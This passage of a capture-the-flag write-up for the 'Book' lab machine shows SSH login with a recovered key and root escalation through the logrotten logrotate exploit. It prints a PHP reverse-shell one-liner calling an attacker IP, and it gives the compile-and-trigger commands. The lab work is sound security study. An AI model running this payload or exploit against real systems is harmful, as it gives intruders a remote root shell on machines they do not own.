 ```text
-----END RSA PRIVATE KEY-----
```

We then `chmod 700` the file and ssh into the box as `reader` and read the use flag.

```bash
kali@kali:~/boxes/book$ ssh -i id_rsa reader@book.htb

reader@book:~$ ls
backups  lse.sh  user.txt
reader@book:~$ cat user.txt
51c1d4b51{...}}
```

## ROOT

### enumeration

After running pspy we realise that logrotate is running as root.

After some reasearching we find a github that has an explpoit [exploit](https://github.com/whotwagner/logrotten).

### exploitation

Exploitation steps:

```bash
reader@book:~$ cd /tmp
reader@book:/tmp$ mkdir shell
reader@book:/tmp$ cd  shell
reader@book:/tmp/shell$ nano logrotten.c
reader@book:/tmp/shell$ gcc -o logrotten logrotten.c

reader@book:/tmp/shell$ nano payload
reader@book:/tmp/shell$ ./logrotten -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
```

payload file:

```php
php -r '$sock=fsockopen("10.10.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

we have to echo data to the logs file to make it rotate otherwise it wont do anything

```bash
reader@book:~/backups$ cat access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
```
